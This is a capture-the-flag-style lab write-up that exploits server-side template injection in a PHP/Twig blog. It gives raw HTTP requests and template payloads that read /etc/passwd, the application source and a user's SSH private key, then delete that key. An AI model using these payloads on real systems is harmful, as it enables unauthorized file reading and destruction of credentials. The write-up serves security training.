 # Server-side template injection with a custom exploit

## Description

 This lab is vulnerable to server-side template injection. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, log in with `wiener:peter` and post a comment on one of the blogs.
2. Go to the "My account" page. Notice that the functionality for setting a preferred name is vulnerable to server-side template injection, and that you have access to the user object.

```text
POST /my-account/change-blog-post-author-display HTTP/1.1
Host: 0aa10086032826fac0fb869a007b007d.web-security-academy.net
Cookie: session=weVRd6xjRJcAO1mP22aj4F8fT9rTzBAf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net
Referer: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

blog-post-author-display=user.first_name&csrf=TmMgLY1pTzScQv6xgJGRNiWHptf3lzdf
```

3. Investigate the custom avatar functionality. Notice that when you upload an invalid image, the error message discloses a method called `user.setAvatar()`. Also take note of the file path `/home/carlos/User.php`. You will need this later.

**Request**:

```text
POST /my-account/avatar HTTP/1.1
Host: 0aa10086032826fac0fb869a007b007d.web-security-academy.net
Cookie: session=weVRd6xjRJcAO1mP22aj4F8fT9rTzBAf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------161787197129286381834010908465
Content-Length: 493
Origin: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net
Referer: https://0aa10086032826fac0fb869a007b007d.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------161787197129286381834010908465
Content-Disposition: form-data; name="avatar"; filename="nonsense.txt"
Content-Type: text/plain

nonsense

-----------------------------161787197129286381834010908465
Content-Disposition: form-data; name="user"

wiener
-----------------------------161787197129286381834010908465
Content-Disposition: form-data; name="csrf"

TmMgLY1pTzScQv6xgJGRNiWHptf3lzdf
-----------------------------161787197129286381834010908465--
```

**Response**

```text
HTTP/1.1 500 Internal Server Error
Content-type: text/html; charset=UTF-8
Connection: close
Content-Length: 290

<pre>PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/nonsense.t...', 'text/plain')
#1 {main}
  thrown in /home/carlos/User.php on line 28
</pre>
```

4. Upload a valid image as your avatar and load the page containing your test comment.
5. In Burp Repeater, open the POST request for changing your preferred name and use the `blog-post-author-display` parameter to set an arbitrary file as your avatar:

```text
user.setAvatar("/etc/passwd")
```
    
6. Load the page containing your test comment to render the template. 

```text
Internal Server Error

PHP Fatal error: Uncaught ArgumentCountError: Too few arguments to function User::setAvatar(), 1 passed in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Extension/Core.php on line 1601 and exactly 2 expected in /home/carlos/User.php:26 Stack trace: ...
```

7. Notice that the error message indicates that you need to provide an image `MIME` type as the second argument. Provide this argument and view the comment again to refresh the template:

```text
user.setAvatar('/etc/passwd','image/jpeg')
```
    
7. To read the file, load the avatar using `GET /avatar?avatar=wiener`. This will return the contents of the `/etc/passwd` file, confirming that you have access to arbitrary files.

![SSTI](/_static/images/ssti4.png)

8. Repeat this process to read the PHP file that you noted down earlier:

```text
user.setAvatar('/home/carlos/User.php','image/jpeg')
```
    
9. Reload the blog post with the comment and load the avatar using `GET /avatar?avatar=wiener` again. 

![SSTI](/_static/images/ssti5.png)

In the PHP file, Notice that you have access to the `gdprDelete()` function, which deletes the user's avatar. You can combine this knowledge to delete Carlos's file.

10. First set the target file as your avatar, then view the comment to execute the template:

```text
user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')
```
    
11. Invoke the `user.gdprDelete()` method and view your comment again to solve the lab.

```text
blog-post-author-display=user.gdprDelete()&csrf=TmMgLY1pTzScQv6xgJGRNiWHptf3lzdf
```

## Exploitability

An attacker will need to create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.
